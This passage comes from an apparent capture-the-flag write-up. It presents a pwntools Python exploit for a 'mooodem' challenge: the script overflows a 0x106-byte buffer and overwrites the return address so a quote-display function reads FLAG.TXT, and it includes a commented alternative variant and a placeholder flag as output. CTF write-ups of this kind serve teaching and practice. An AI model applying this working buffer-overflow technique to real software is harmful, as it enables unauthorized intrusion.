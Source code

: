 The return address is at `0xff8c`.

Analysis complete.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

p = process('./fooodem.sh')
#p = process(['./mooodem.sh','mooodem.challenges.ooo','5000'])

_ = p.recvuntil('your name?')
p.sendline('FLAG.TXT')
_ = p.recvuntil('Selection:')
p.sendline('supersneaky2020')
_ = p.recvuntil('Selection:')
p.sendline('C')
_ = p.recvuntil('> ')

payload  = 0x106*b'A'
payload += p16(0xe98a) # quote function
#'''
payload += p16(0x1c20) # FLAG.TXT as name
payload += p16(0xbd5)  # rb
'''
payload += p16(0xff8c + 2 + 2 + 2) # return address, pointer to file, pointer to rb, then "FLAG.TXT"
payload += p16(0xbd5)
payload += b'FLAG.TXT\x00'
'''

p.sendline(payload)
p.sendline('')
_ = p.recvuntil('Selection:')
p.sendline('L')
_ = p.recvuntil(b'OOO{')
print(_.decode("unicode_escape")[-4:],end='')
_ = p.recvuntil(b'}')
print(_.decode("unicode_escape"))
```

Either exploit is selectable by moving `#`.  Both start with overflowing the buffer with `0x106` bytes, then overwriting the return address with the address in the _Show Random Quote_ function.  In the first case the pointer to `FLAG.TXT` is our _name_, whereas in the second case it's on the stack.

Running this locally outputs:

```
OOO{not the real flag}
```
